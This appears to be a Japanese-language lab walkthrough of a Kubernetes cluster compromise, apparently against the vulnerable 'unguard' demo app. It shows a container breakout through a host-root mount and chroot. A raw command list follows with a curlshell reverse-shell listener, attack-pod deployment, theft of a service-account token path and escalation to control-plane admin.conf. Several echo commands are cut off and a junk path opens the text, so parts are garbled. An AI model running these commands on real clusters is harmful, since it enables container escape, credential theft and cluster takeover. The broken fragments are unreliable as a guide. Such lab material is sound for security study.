 ![k8s-diagram-03](./images/k8s-diagram-03.png)

## コンテナブレイクアウトによるワーカーノード侵入

作成した Pod の ubuntu コンテナに Exec します。

```bash
[unguard-proxy-service]: ./kubectl exec -it -n unguard --kubeconfig kubeconfig attack-pod-1 -- bash

[attack-pod-1]: cat /etc/hostname
attack-pod-1
```

作成した Pod にはノードのルートパスをマウントしているため、コンテナ内からノードのファイルを操作することができます。

```
[attack-pod-1]: ls /
bin  boot  dev  etc  home  host-system  lib  lib64  media  mnt  opt  proc  product_name  product_uuid  root  run  sbin  srv  sys  tmp  usr  var

[attack-pod-1]: ls /host-system
LICENSES  bin  boot  dev  etc  home  kind  lib  lib64  media  mnt  opt  proc  procHost  root  run  sbin  srv  sys  tmp  usr  var

[attack-pod-1]: chroot /host-system bash

[worker-node]: cat /etc/hostname
kind-worker
```


[attack-server]: ./curlshell.py --listen-port 1234
[unguard-proxy-service]: cat /etc/hostname
[unguard-proxy-service]: cd /tmp/
[unguard-proxy-service]: curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
[unguard-proxy-service]: chmod +x kubectl
[unguard-proxy-service]: echo "
[unguard-proxy-service]: ./kubectl auth whoami --kubeconfig kubeconfig
[unguard-proxy-service]: ./kubectl get po -n unguard --kubeconfig kubeconfig | grep unguard
[unguard-proxy-service]: ./kubectl get po -A --kubeconfig kubeconfig
[unguard-proxy-service]: ./kubectl get no --kubeconfig kubeconfig
[unguard-proxy-service]: echo '
[unguard-proxy-service]: ./kubectl apply -f pod.yaml --kubeconfig kubeconfig
[unguard-proxy-service]: ./kubectl get po -n unguard --kubeconfig kubeconfig -o wide | grep attack
[worker-node]: cd /tmp/
[worker-node]: crictl ps
[worker-node]: crictl inspect 9280e4f6f7f8f | grep -A 2 -m 1 /var/run/secrets/kubernetes.io/serviceaccount
[worker-node]: sa_path=/var/lib/kubelet/pods/ab46f469-a60c-4588-9d21-3a713174b101/volumes/kubernetes.io~projected/kube-api-access-b6x66
[worker-node]: echo "
[worker-node]: kubectl auth whoami --kubeconfig kubeconfig
[worker-node]: kubectl get no --kubeconfig kubeconfig
[worker-node]: kubectl get no --kubeconfig kubeconfig kind-control-plane -o yaml
[worker-node]: exit
[attack-pod-1]: exit
[unguard-proxy-service]: cat /etc/hostname
[unguard-proxy-service]: echo '
[unguard-proxy-service]: ./kubectl apply -f pod2.yaml --kubeconfig kubeconfig
[unguard-proxy-service]: ./kubectl get po -n unguard --kubeconfig kubeconfig -o wide | grep attack
[unguard-proxy-service]: ./kubectl exec -it -n unguard --kubeconfig kubeconfig attack-pod-2 -- bash
[attack-pod-2]: cat /etc/hostname
[attack-pod-2]: ls /
[attack-pod-2]: chroot /host-system bash
[control-plane]: cat /etc/hostname
[control-plane]: ls /etc/kubernetes/
[control-plane]: kubectl auth whoami --kubeconfig /etc/kubernetes/admin.conf
[control-plane]: kubectl get pod -A --kubeconfig /etc/kubernetes/admin.conf